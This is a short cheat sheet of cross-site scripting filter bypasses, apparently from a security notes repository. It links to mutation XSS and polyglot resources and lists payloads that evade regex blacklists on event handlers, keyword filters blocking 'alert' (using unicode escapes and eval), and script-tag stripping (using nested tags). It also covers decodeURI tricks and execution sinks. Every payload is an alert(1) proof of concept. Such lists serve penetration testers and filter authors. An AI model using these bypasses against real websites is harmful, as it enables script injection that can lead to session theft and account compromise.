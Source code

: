 ### XSS Mutation
http://www.businessinfo.co.uk/labs/mxss/

### XSS Poliglote
https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

### Regex Blacklist Filtering
-> Filter blocking on - Bypass  
`(on\w+\s*=)`  
```
<svg onload%09=alert(1)> 
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2C%3B=alert(1)>
<svg onload%0B=alert(1)>
```  

### Keyword Based in Filter
#### Alert Blocked - Bypass
```
<script>\u0061lert(1)</script>
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>
<script>eval("\u0061lert(1)")</script>  
<script>eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")</script>
```

#### Removing script Tag - Bypass
```
<sCR<script>iPt>alert(1)</SCr</script>IPt>
```

### Scaping Quote
#### Methods
-> String.fromCharCode()  
-> unescape  

e.g.  
-> decode URI + unescape method (need eval)  
```
decodeURI(/alert(%22xss%22)/.source)
decodeURIComponent(/alert(%22xss%22)/.source)
```  
 
### Other bypass techniques
-> unicode  
```
<img src=x onerror="\u0061\u006c\u0065\u0072\u0074(1)"/>
```

Add execution sink:  
-> eval  
-> setInterval  
-> setTimeout  
